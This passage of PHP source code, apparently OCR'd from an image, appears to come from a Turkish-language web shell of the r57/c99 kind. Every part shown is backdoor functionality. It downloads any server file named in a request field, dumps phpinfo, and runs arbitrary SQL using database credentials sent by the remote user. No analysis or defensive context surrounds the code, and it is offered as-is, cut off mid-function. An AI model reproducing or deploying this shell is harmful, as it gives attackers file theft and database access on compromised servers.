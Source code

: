  header("Content-type: image/gif");
 echo base64_decode($images[$_GET['img']]);
 die();
 }
if(isset($_POST['cmd']) && !empty($_POST['cmd']) && $_POST['cmd']=="download_file" && !empty($_POST['d_name']))
 {
  if(!$file=@fopen($_POST['d_name'],"r")) { echo re($_POST['d_name']); $_POST['cmd']=""; }
  else
   {
    @ob_clean();
    $filename = @basename($_POST['d_name']);
    $filedump = @fread($file,@filesize($_POST['d_name']));
    fclose($file);
    $content_encoding=$mime_type='';
    compress($filename,$filedump,$_POST['compress']);
    if (!empty($content_encoding)) { header('Content-Encoding: ' . $content_encoding); }
    header("Content-type: ".$mime_type);
    header("Content-disposition: attachment; filename=\"".$filename."\";");
    echo $filedump;
    exit();
   }
 }
if(isset($_GET['phpinfo'])) { echo @phpinfo(); echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;Geri&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;"; die(); }
if ($_POST['cmd']=="db_query")
 {
 echo $head;
 $sql = new my_sql();
 $sql-&gt;db   = $_POST['db'];
 $sql-&gt;host = $_POST['db_server'];
 $sql-&gt;port = $_POST['db_port'];
 $sql-&gt;user = $_POST['mysql_l'];
 $sql-&gt;pass = $_POST['mysql_p'];
 $sql-&gt;base = $_POST['mysql_db'];
 $querys = @explode(';',$_POST['db_query']);

 if(!$sql-&gt;connect()) echo "&lt;div align=center&gt;&lt;font face=Verdana size=-2 color=orange&gt;&lt;b&gt;Sql Server ile Baglant? Kurulamad? &lt;/b&gt;&lt;/font&gt;&lt;/div&gt;";
  else
   {
   if(!empty($sql-&gt;base)&&!$sql-&gt;select_db()) echo "&lt;div align=center&gt;&lt;font face=Verdana size=-2 color=orange&gt;&lt;b&gt;DataBase Girilmedi&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;";
   else
    {
    foreach($querys as $num=&gt;$query)
     {
      if(strlen($query)&gt;5)
      {
      echo "&lt;font face=Verdana size=-2 color=white&gt;&lt;b&gt;Query#".$num." : ".htmlspecialchars($query,ENT_QUOTES)."&lt;/b&gt;&lt;/font&gt;&lt;br&gt;";
      switch($sql-&gt;query($query))
       {
       case '0':
       echo "&lt;table width=100%&gt;&lt;tr&gt;&lt;td&gt;&lt;font face=Verdana size=-2&gt;Error : &lt;b&gt;".$sql-&gt;error."&lt;/b&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;";
       break;
       case '1':
       if($sql-&gt;get_result())
        {
       	echo "&lt;table width=100%&gt;";
        foreach($sql-&gt;columns as $k=&gt;$v) $sql-&gt;columns[$k] = htmlspecialchars($v,ENT_QUOTES);